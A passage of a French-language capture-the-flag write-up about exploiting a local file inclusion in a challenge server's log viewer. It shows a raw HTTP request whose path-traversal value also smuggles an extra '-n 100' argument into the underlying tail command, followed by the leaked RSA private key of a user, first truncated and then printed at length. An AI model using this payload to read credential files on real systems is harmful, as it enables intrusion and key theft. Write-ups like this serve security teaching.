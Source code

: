 ## Se connecter en SSH

N'oublions pas que l'énoncé comportait un port SSH (TCP/5007). Précédement, nous avons vu qu'il y a deux utilisateurs sur le serveur : **test** et **trobin**. En utilisant la LFI, nous pouvons trouver les clés RSA de l'utilisateur **test** dans le répertoire `/home/test/.ssh` :

{{< highlight plaintext >}}
svu/zHqzzrRsm1un3Ikcvy0lnG31sg6kJ8EXH6ECgYEApe/Wv2KD+EDRwf4BQ19W
a2gPYIQgqraR+WHG0mL3diC58Y+uJMz3rulV47KZuYNrLL05vfLxNcEbRoKW6H1g
NmFXExuFkuPpG6oLEYVM62Bm8pksA/tkC907CY/cG4sGUYB4Rv0qKHCXrByMqp/u
SoqMrjef2P/wD2EfzCkz2AECgYBIr98m6VrLUvri7vVqjFSewcTR1k+zyF7byLFt
3Hj9WG7xYvruq2w/5TK4bGYXbopxOj5naab9EVvsyF5+twc/vPiy2VjT76Z1fwJG
BmEHuy9V07r2FWnYWlQHyKYvKPJ04JPdWgmOdicDXLJCCdq4gV5FD6bLmdVrrj0p
CSSSQQKBgQCI3TUMYeR/4+86B6i2sldPVtn52QrOHeaDwRfZ1Z7TRYPY6gIvKBLd
VVU6YcP0KwZUHeUOC7qNxSCTnB7FkANad+D/7a0MGqAGCmWChS5GD6zpqhW+tKkY
zc9Ur+20TJHIwAKloaZLiMdcpdyFUQQRStXCGD6wqbw8UxGfx1Fd0g==
-----END RSA PRIVATE KEY-----
{{< /highlight >}}

Hum, la clé RSA privée n'a pas l'air complète. Effectivement, pour afficher les logs (fonctionnalité d'origine de la zone d'administration, rappelez-vous ...), le fichier est tronqué pour n'afficher que les 10 dernières lignes ... 10 lignes ... `tail` ? Essayons avec l'option `-n 100` ...

{{< highlight http >}}
POST /0cc175b9c0f1b6a831c399e269772661/admin.php HTTP/1.1
Host: ctf.hacklab-esgi.org:5008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.hacklab-esgi.org:5008/0cc175b9c0f1b6a831c399e269772661/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Cookie: PHPSESSID=urj94cee9424reig3bje31b0a2
Upgrade-Insecure-Requests: 1

log=../../../../../../../../home/test/id_rsa -n 100
{{< /highlight >}}

{{< highlight plaintext >}}
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1f3hWbx2726sOiwm+gg8Td2261E7QSJhQHcQFEns7Ubonx6E
+YU4BgzQt136gK42RwoGOph8H/Tu0zfjGIx9IQOIDG8VmCItfUDFCexoqoZB2cj2
9sLKgA/VZqRJiSka1+uibcyIgFnyDegbSXt42J6XL6xZaT56aq539s8M/aFSWNEf
8yTBG7k4E0ZWqexBhXDK3rNJ1veH3EcJXBjYgitDLXSS/VPE7op6MlD5q7ZdNt28
45idJ5tT+U8xrht71oGiIswxi1dXz0VvjXOIJIk1iQIyRdiGIvPpHIY+Dxw2FTHo
pi7Z3M5hjoq36LQryHjVbUVaUrvkyeQtZXeDIQIDAQABAoIBAHloJrhAwsGo6rG+
ZwaoMX6D8cmkNpgHp2Fpq4e3QWKFPmk4aX0fZd+Y2bmO6hajwEuhllMcPB/tWKoh
JQjCfCOE22UiiP/dNC3B14h/xgopTab/642oijcJxKsNPmNBHOev2mGtDyyy2y+k
pgaUtMVBhMkZYUjil5V7ErjGU7p5CCqeZUditEMKq9eAAq8oNGq84L0ZKqx4dyPN
Ai36I8Nygk1SpYBod+K7lUYDDfd+ZPR/yEVhfHP9JqLdezfpeJW7SQvgc4Fb0rEY
+tvM0IfyIR/9tB7IrfNuXG6S+UjoP5eybasUMDn0sqSGYLfaq1pFZYolneDkrpeV
9mPBoAECgYEA+LJUBHTrdKWqxtwkugg05Iu5nEMTGhUmZ4b6x2MRGeadqPF6u9+R
0eubqX+oNWAKBgtHQSzE8faLnOJ6lc2oEN6jeukCDStYg//aIaEyZf2r/uBs0+zA
QNO8CQ5dXK5sowaFPgqXZ0mIFUmtDOgSm6M3IRc4BK6nYlxClVzTs4ECgYEA3Eal
GLMBNykaR0jCD1CartiTZay6ld1rCZVJWjONDgJGtzi0tW1j7Mr5jk0dwfp7cJVu
/Dx+sc4Om/nJ3h15pvvcrKnv0kPhqXX4h+dFmz2psTKmjYjpsff0eLRJS9JHVNEb
svu/zHqzzrRsm1un3Ikcvy0lnG31sg6kJ8EXH6ECgYEApe/Wv2KD+EDRwf4BQ19W
a2gPYIQgqraR+WHG0mL3diC58Y+uJMz3rulV47KZuYNrLL05vfLxNcEbRoKW6H1g
NmFXExuFkuPpG6oLEYVM62Bm8pksA/tkC907CY/cG4sGUYB4Rv0qKHCXrByMqp/u
SoqMrjef2P/wD2EfzCkz2AECgYBIr98m6VrLUvri7vVqjFSewcTR1k+zyF7byLFt
3Hj9WG7xYvruq2w/5TK4bGYXbopxOj5naab9EVvsyF5+twc/vPiy2VjT76Z1fwJG
BmEHuy9V07r2FWnYWlQHyKYvKPJ04JPdWgmOdicDXLJCCdq4gV5FD6bLmdVrrj0p
CSSSQQKBgQCI3TUMYeR/4+86B6i2sldPVtn52QrOHeaDwRfZ1Z7TRYPY6gIvKBLd